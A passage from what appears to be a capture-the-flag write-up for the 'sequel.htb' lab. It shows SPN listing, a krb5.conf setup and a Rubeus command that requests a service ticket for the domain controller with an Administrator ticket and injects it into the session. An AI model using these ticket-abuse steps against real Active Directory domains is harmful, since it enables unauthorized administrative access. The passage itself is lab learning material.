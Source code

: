 ## Additional Section

BUT I cannot access Admin user directories with this ticket:

<aside>
❗

It should have requested TGS and given access to directories by itself, but it seems this just didn’t happen.

</aside>

![image.png](image%2029.png)

Listing SPNs:

```powershell
setspn -L dc$
```

![image.png](image%2030.png)

> If a service does not have a **Service Principal Name (SPN)** registered in Active Directory, you **cannot request a Ticket-Granting Service (TGS) ticket** from the Kerberos Key Distribution Center (KDC) for that service, even if you have a valid **Ticket-Granting Ticket (TGT)** for an Administrator account.
{: .prompt-warning }


I saw `HOST/dc.sequel.htb` which is oftentimes SPN  that encompasses  SMB, RPC and so on.

So I tried requesting TGS ticket for that SPN:

First set `/etc/krb5.conf` file:

```bash
[libdefaults]
default_realm = SEQUEL.HTB
kdc_timesync = 1
ccache_type = 4
forwardable = true
proxiable = true
[realms]
SEQUEL.HTB = {
kdc = dc.sequel.htb
admin_server = dc.sequel.htb
}
[domain_realm]
.sequel.htb = SEQUEL.HTB
sequel.htb = SEQUEL.HTB
```

**Requesting TGS ticket:**

**>> Windows**

```bash
.\Rubeus.exe asktgs /ticket:admin.kirbi /service:HOST/dc.sequel.htb /dc:dc.sequel.htb /ptt
```
